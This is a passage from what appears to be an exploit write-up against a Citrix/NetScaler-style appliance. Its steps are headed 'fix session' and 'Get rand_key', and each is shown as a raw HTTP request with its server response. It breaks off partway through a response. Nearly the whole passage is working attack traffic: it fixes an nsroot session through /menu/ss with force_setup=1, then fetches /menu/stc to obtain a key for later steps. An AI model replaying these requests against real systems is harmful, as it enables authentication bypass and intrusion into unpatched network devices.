 ### 0x02 fix session

> request

    GET /menu/ss?sid=nsroot&username=nsroot&force_setup=1 HTTP/1.1
    Host: www.0-sec.org:9080
    User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.132 Safari/537.36 C845D9D38B3A68F4F74057DB542AD252 tx/2.0
    Accept-Encoding: gzip, deflate
    Connection: close
    Cookie: SESSID=eb1780b044676f588dbcc2a6305f6b57
    Range: bytes=0-102400

> response

    HTTP/1.1 302 Found
    Date: Sun, 12 Jul 2020 07:54:31 GMT
    Server: Apache/2.4.34 (Unix)
    Expires: Thu, 19 Nov 1981 08:52:00 GMT
    Cache-Control: no-store, no-cache, must-revalidate
    Pragma: no-cache
    Set-Cookie: is_cisco_platform=-1; expires=Wed, 07-Jul-2021 07:54:32 GMT; Max-Age=31104000; path=/; HttpOnly
    Location: /menu/neo
    Content-Length: 416
    Connection: close
    Content-Type: text/html; charset=UTF-8

    <div style="color: red; margin: 10px" title="More information about this error may be available in the server error log. Please contact the server administrator">An internal server error was encountered</div><div style="color: red; margin: 10px" title="More information about this error may be available in the server error log. Please contact the server administrator">An internal server error was encountered</div>

### 0x03 Get rand\_key

> request

    GET /menu/stc HTTP/1.1
    Host: www.0-sec.org:9080
    User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.132 Safari/537.36 C845D9D38B3A68F4F74057DB542AD252 tx/2.0
    Accept-Encoding: gzip, deflate
    Connection: close
    Cookie: SESSID=eb1780b044676f588dbcc2a6305f6b57; is_cisco_platform=-1
    Range: bytes=0-102400

> response

    HTTP/1.1 206 Partial Content
    Date: Sun, 12 Jul 2020 07:54:35 GMT
    Server: Apache/2.4.34 (Unix)
    Expires: Thu, 19 Nov 1981 08:52:00 GMT
    Cache-Control: no-store, no-cache, must-revalidate
    Pragma: no-cache
    Vary: Accept-Encoding
    Content-Range: bytes 0-4149/4150
    Content-Length: 15501
    Connection: close
    Content-Type: text/html; charset=UTF-8
